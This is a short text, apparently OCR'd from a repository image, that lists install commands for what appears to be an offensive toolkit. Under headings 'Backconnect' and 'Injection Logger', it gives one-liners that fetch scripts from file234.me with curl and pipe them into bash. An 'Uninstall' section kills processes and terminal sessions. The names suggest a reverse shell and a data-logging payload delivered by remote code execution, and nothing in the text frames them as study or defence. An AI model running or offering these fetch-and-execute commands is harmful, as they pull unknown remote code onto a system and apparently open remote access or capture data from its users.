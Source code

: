 Backconnect
======================
bash -c "$(curl -fsSL https://file234.me/z)"

Injection Logger
======================
bash -c "$(curl -fsSL https://file234.me/self)"

Uninstall
=====================
pkill defunct
kill -KILL PID
pkill -t pts/0
